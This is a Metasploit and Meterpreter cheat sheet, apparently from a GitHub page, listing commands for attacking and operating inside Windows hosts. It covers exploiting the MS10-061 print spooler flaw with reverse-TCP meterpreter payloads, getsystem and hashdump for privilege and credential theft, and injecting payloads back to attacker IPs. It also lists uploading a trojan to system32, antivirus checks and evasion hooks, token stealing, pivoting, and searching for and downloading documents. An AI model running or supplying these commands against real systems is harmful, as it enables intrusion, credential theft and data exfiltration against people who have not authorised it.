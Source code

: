 ## Metasploit:  

    msfconsole [-n disables database support]
        Log output:  spool /root/20220317-log.1
        help <cmd>
        sessions [-h / -l / -i # / -k #]
        search [type: exploit platform:windows name:Microsoft app:server]
        info [exploit/windows/smb/ms10_061_spoolss]
        use [exploit/windows/smb/ms10_061_spoolss  \\  #]
            show options
                show advanced
            show targets
            show payloads
            set payload [windows/meterpreter/reverse_tcp]
                RHOST (exploit): where the packet goes next
                LHOST (payload): the IP of the box that the target box will send the packet to
            set prependmigrateprocess spoolsv.exe
            set prependmigrate true
        exploit  
   
## Meterpreter:  

    General Commands:
          https://www.hackers-arise.com/ultimate-list-of-meterpreter-command
          sessions; sessions -i <#>; sessions -k <#>
          shell
          jobs; jobs -h; jobs -K
          getsystem
          hashdump
          help
          Run Script: run ... - scripts located in /usr/share/metasploit-framework/modules/post and /usr/share/metasploit-framework/scripts/meterpreter
              Useful Scripts: https://www.hackers-arise.com/ultimate-list-of-meterpreter-scripts
          Run Command:
              run multicommand -cl ["cmd.exe /c at","cmd.exe /c schtasks /query"  \\  "cmd.exe /c dir c:\\windows\\temp /od /tw"] [-f <local output file>]
              Background:  execute [-f fpipe.exe -a '-l 12345 -r 45678 192.168.11.26']
              shell  \\  execute -i -f [/system/bin/sh  \\  cmd.exe]
              WMIC:  run post/windows/gather/wmic_command COMMAND="startup list"
          background
          upload/download   (ex.  download [c:\\boot.ini]  ;  upload [evil_trojan.exe c:\\windows\\system32])
          reg
          search  (ex.  search [-f autoexec.bat] [-f sea*.bat c:\\xamp\\])
          edit <file> (uses vim)
          resource <local file>  (runs script of commands)
          kill

    Techniques:
          Migrate to Stable Process:  migrate <PID of spoolsv.exe>
          Switch Payload Architecture:  use post/windows/manage/archmigrate; set SESSION 1; set IGNORE_SYSTEM=true
          Duplicate Session:  use post/windows/manage/multi_meterpreter_inject; set ... IPLIST="IP of next hop back--prob jump internal IP, same as rev shell IP" LPORT=3333 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp  
              Or:  run duplicate -D -P 364 -p 443 -r 192.168.137.152  ;  -P <PID>, -r <Attacker IP>, -p <remote port>, -D disable the automatic exploit/multi/handler
          Open another shell:  use post/windows/manage/payload_inject; set ... LHOST=172.17.10.80 LPORT=4444 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp
          Upload file:  upload "/root/psloglist.exe" "c:/windows/temp/psloglist.exe"
          Pivot:  execute -f fpipe.exe -a '-l 12345 -r 12345 192.168.1.1'
          search -f *.txt -d c:\\documents\ and\ settings\\administrator\\desktop\\

    Situational Awareness:
          localtime  \\  run multicommand -cl "cmd.exe /c date /t","cmd.exe /c time /t","cmd.exe /c w32tm /tz"  \\  run post/windows/gather/wmic_command COMMAND="os get localdatetime"
          ipconfig  \\  run get_local_subnets
          netstat
          getuid
          getpid
          ps
          run post/windows/gather/enum_logged_on_users
          idletime
          sysinfo
          run multicommand -cl 'cmd.exe /c systeminfo' 
    Users/Privs:
          getprivs  \\  run post/windows/gather/win_privs
        getsid
        run multicommand -cl "cmd.exe /c net users","cmd.exe /c net accounts"
        run multicommand -cl 'cmd.exe /c net localgroup administrators' 
    Environment:
        run get_env  \\  run post/multi/gather/env
        run checkvm
        Check AV:
            ps
            run getcountermeasure
            run post/windows/gather/enum_applications
            run post/windows/gather/wmic_command COMMAND='/node:localhost /namespace:\\root\securitycenter2 path antivirusproduct get * /format:list'
                Confirm:  run multicommand -cl 'cmd.exe /c sc queryex state= all|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'  \\  run multicommand -cl 'cmd.exe /c wmic process get commandline /format:list|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'					
                Status:  run multicommand -cl 'cmd.exe /c sc query [WinDefend\SAVService\...]'
                #run killav  \\  #run virusscan_bypass
        Check Firewall:
            run multicommand -cl "cmd.exe /c netsh advfirewall show currentprofile","cmd.exe /c netsh advfirewall show allprofiles"  \\  run multicommand -cl "cmd.exe /c netsh firewall show config"
            run multicommand -cl 'cmd.exe /c netsh advfirewall monitor show firewall'
            run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule name=all > c:\windows\temp\rules.txt' ; download c:/windows/temp/rules.txt /tmp ; rm c:/windows/temp/rules.txt ; dos2unix -n -f /tmp/rules.txt /tmp/rules2
                *Note the profiles
                *Check Enabled, Direction, Profile, Protocol, Action
                **Check Default Policy** -> port might be allowed by default
        Check Auditing:  run multicommand -cl 'cmd.exe /c auditpol /get /category:*'
        Hardware:  run post/windows/gather/wmic_command COMMAND="computersystem get TotalPhysicalMemory"; run post/windows/gather/wmic_command COMMAND="computersystem get FreePhysicalMemory"  \\  run multicommand -cl 'cmd.exe /c systeminfo'        
    Networking:
        run multicommand -cl 'cmd.exe /c nbtstat -n'
        route
        run multicommand -cl "cmd.exe /c netsh interface ip show config"  (Shows DNS server, etc.)
        getproxy
        Domain Enum:  run multicommand -cl "cmd.exe /c nbtstat -n"; load extapi; adsi_computer_enum <domain>; adsi_user_enum <domain>; adsi_nested_group_user_enum <domain> "CN=Domain Admins,CN=Users,DC=boot,DC=lab"; might need to: steal_token <PID of user process> ; then drop_token
        Resolve Hostname:  resolve <hostname>
        Scan:
            use post/windows/gather/arp_scanner
            use auxiliary/scanner/portscan/tcp
    Enumeration:
        ps
        run post/windows/gather/enum_applications
        reg enumkey -k 'HKLM\software'
        reg enumkey -k 'HKLM\software\microsoft'
        run multicommand -cl "cmd.exe /c at","cmd.exe /c schtasks /query"
        run post/windows/gather/enum_services  \\  run multicommand -cl "cmd.exe /c sc queryex state= all"
        run multicommand -cl "cmd.exe /c net use","cmd.exe /c net share"  \\  run post/windows/gather/enum_shares
        run post/windows/gather/forensics/enum_drives  \\  show_mount
        run post/windows/gather/wmic_command COMMAND="startup list"
        reg queryval -k 'HKLM\software\microsoft\powershell\1\powershellengine' -v powershellversion
        search -f *.doc* ; search -f *.xls* ; search -f *.ppt* ; search -f *.pdf*
        run multicommand -cl 'cmd.exe /c where /R C:\users *.exe | findstr /i "Temp"'
    Dump Info:
        run remotewinenum -u administrator -p password -t 10.1.1.1
        run scraper
        run winenum
